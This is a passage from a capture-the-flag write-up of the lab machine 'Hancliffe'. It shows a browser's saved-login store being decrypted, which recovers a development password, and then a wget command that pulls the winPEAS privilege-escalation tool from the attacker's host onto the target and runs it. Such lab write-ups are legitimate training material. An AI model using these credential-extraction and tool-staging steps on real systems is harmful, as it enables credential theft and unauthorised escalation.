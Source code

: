      SEQUENCE {
       SEQUENCE {
         OBJECTIDENTIFIER 1.2.840.113549.1.5.13 pkcs5 pbes2
         SEQUENCE {
           SEQUENCE {
             OBJECTIDENTIFIER 1.2.840.113549.1.5.12 pkcs5 PBKDF2
             SEQUENCE {
               OCTETSTRING b'8d0ed50896869dc856de82150164a1390a953b67792edac2a62315625836ff08'
               INTEGER b'01'
               INTEGER b'20'
               SEQUENCE {
                 OBJECTIDENTIFIER 1.2.840.113549.2.9 hmacWithSHA256
               }
             }
           }
           SEQUENCE {
             OBJECTIDENTIFIER 2.16.840.1.101.3.4.1.42 aes256-CBC
             OCTETSTRING b'76eba390fe01807925d822a071da'
           }
         }
       }
       OCTETSTRING b'cde74fae29c28c791794371b447180cabce01b6927bac73199f192e557136c36'
     }
    clearText b'9efbbfd986fd5bef94b032679b7679d09b1f51891601b6e50808080808080808'
    decrypting login/password pairs
    http://localhost:8000:b'hancliffe.htb',b'#@H@ncLiff3D3velopm3ntM@st3rK3y*!'



Based on the password, it seems that it's for the development account.

#### WinPeas

Props to [IppSec](https://www.youtube.com/watch?v=kA-bkftyyY0) for
pointing out to me that
[WinPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/winPEAS)
will actually decrypt these passwords automatically.

I'll grab the [latest
release](https://github.com/carlospolop/PEASS-ng/releases/tag/20220303)
and upload it:



    PS C:\ProgramData> wget http://10.10.14.6/winPEASx64.exe -outfile wp.exe -usebasicparsing



Now I'll run it:



    PS C:\ProgramData> .\wp.exe

                 *((,.,/((((((((((((((((((((/,  */               
          ,/*,..*((((((((((((((((((((((((((((((((((,           
        ,*/((((((((((((((((((/,  .*//((//**, .*(((((((*       
        ((((((((((((((((**********/########## .(* ,(((((((   
        (((((((((((/********************/####### .(. (((((((
        ((((((..******************/@@@@@/***/###### ./(((((((
        ,,....********************@@@@@@@@@@(***,#### .//((((((
        , ,..********************/@@@@@%@@@@/********##((/ /((((
    ...[snip]...
